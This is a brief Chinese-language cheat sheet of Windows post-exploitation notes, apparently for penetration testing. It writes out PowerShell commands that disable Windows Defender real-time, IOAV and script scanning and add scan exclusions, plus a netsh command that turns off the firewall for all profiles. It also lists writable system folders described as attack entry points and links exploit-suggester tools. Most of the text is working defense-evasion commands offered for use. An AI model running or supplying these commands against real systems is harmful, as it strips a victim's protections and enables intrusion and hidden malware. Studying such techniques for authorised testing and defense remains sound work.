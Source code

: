 ## 安全防護繞過與弱點分析

### 🛡️ 防毒偵測繞過（Windows Defender）

- 查看 Defender 狀態：
    
    - `Get-MpComputerStatus`
        
- 關閉即時監控：
    
    `Set-MpPreference -DisableRealtimeMonitoring $true Set-MpPreference -DisableIOAVProtection $true Set-MpPreference -DisableScriptScanning 1`
    
- 排除目錄 / 程式：
    
```
Add-MpPreference -ExclusionPath "C:\Temp" Set-MpPreference -ExclusionProcess "word.exe"
```

### 🔥 防火牆狀態與關閉方式

- `netsh advfirewall firewall dump`
    
- 關閉防火牆：
    `netsh advfirewall set allprofiles state off`
    

### 🧾 可寫入目錄（常見攻擊入口）

- 可寫入但不易引起注意的資料夾：

    - `C:\Windows\Temp`
    - `C:\Windows\Tasks`
    - `C:\Windows\tracing`
    - `C:\Users\Public`
        

### 🔍 Windows Exploit Suggester 工具

- [WES](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)：比對 `systeminfo` 與漏洞公告，找出未修補的弱點。
- [WES-NG](https://github.com/bitsadmin/wesng)：新版支援 MSRC API，自動獲取更新資料。